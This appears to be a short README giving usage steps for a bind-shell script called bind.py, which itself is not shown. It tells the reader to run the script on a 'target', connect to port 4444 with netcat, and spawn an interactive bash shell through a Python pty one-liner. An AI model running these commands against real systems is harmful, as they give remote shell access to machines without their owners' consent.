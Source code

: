 1. Start bind.py on the target.
2. Connect using nc to target 

'''bash
nc targetip 4444
'''
3.Run the fallowing command on terminal 

'''bash
python -c 'import pty; pty.spawn("/bin/bash")'
'''
